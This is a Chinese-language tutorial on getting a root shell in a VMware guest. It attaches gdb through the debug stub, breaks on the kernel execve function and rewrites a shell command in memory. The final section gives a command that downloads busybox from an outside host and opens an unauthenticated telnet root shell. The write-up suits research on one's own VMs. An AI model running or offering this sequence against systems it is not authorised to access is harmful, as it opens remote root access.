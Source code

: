 ## 通过虚拟机调试获取Root Shell

### 参考文章 

https://wzt.ac.cn/2021/05/12/vm_shell/ 一些虚拟机获取 shell 的方法

### 前言

在参考文章中提到一种通过虚拟机调试的方式获取虚拟机root shell。

不过用参考文章中的方法得到的root shell时，系统是没有完全初始化的，网络也没有起来，很不方便，于是本文在参考文章的基础上进行了一些改进。

### **如何对虚拟机进行调试**

vmware workstation 提供了虚拟机调试接口，官方文档指出只需要在虚拟机的 vmx 文件中添加以下选项，即可在外部使用 gdb 附加到虚拟机上，从而实现对虚拟机的调试。

```
debugStub.listen.guest64 = "TRUE"
debugStub.listen.guest64.remote = "TRUE"
debugStub.port.guest64 = "12347"
debugStub.listen.guest32 = "TRUE"
debugStub.listen.guest32.remote = "TRUE"
debugStub.port.guest32 = "12348"
```

目标虚拟机是64位系统，就使用debugStub.port.guest64作为gdb远程调试端口。

目标虚拟机是32位系统，就使用debugStub.port.guest32作为gdb远程调试端口。

其他虚拟机软件VirtualBox,Qemu等等应该也有类似的方法进行虚拟机调试，暂未具体研究。



在虚拟机的 vmx 文件中添加选项后，启动虚拟机，待虚拟机完全启动进入系统后，执行gdb命令远程附加。

```
# gdb
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) target remote 0:12347
Remote debugging using 0:12347
warning: No executable has been specified and target does not support
determining executable automatically.  Try using the "file" command.
0xffffffff819b3eae in ?? ()
(gdb)
```

### 获取Root Shell基本思路

在系统运行时，肯定会执行system/exec类函数，底层都是调用系统内核函数。

不管哪个内核exec系统调用都会调用_do_execve_file_isra_45函数。

![image-20230621134851416](./Images/image-20230621134851416.png)

所以我们在内核_do_execve_file_isra_45函数处下断点，断下后更改函数参数，注入我们自己的命令，即可获取Root Shell.

#### 一些技巧

1.定位_do_execve_file_isra_45函数位置

a)有内核elf文件时

一般内核elf文件中是没有符号的，如果有符号就直接可以定位_do_execve_file_isra_45函数位置。

没有符号时，可以通过HOME=/字符串定位run_init_process函数，进而定位_do_execve_file_isra_45函数位置。

![image-20230621140554288](./Images/image-20230621140554288.png)

![image-20230621140609507](./Images/image-20230621140609507.png)

b)无内核elf文件时

暂未研究成功，先搁置。

2.断点技巧

目标是找到一个参数是/bin/sh -c xxx的调用，这样就可以直接修改xxx的值进行命令修改，可以在_do_execve_file_isra_45函数处下条件断点过滤参数。

```
break *0xffffffff811c2fb0 if *(*(long long*)($rsi))==0x6e69622f

Thread 1 hit Breakpoint 1, 0xffffffff811c2fb0 in ?? ()
(gdb) x/6gx $rcx
0x7ffd6c4acf10: 0x00007f3463d22ae9      0x00007f3463d22ae1
0x7ffd6c4acf20: 0x000000000066c0a0      0x0000000000000000
0x7ffd6c4acf30: 0x00007f3464833f82      0x00007ffd6c4acfc0
(gdb) x/s 0x000000000066c0a0
0x66c0a0:       "/usr/bin/lsb_release -sd 2>/dev/null"
(gdb)

修改对应的命令

set {char [113]} 0x000000000066c0a0 = "cd /tmp;/bin/busybox wget http://192.168.248.1:8000/busybox -O telnetd;chmod +x telnetd;./telnetd -p 22222 -l sh"

继续执行即可获取一个root shell
```

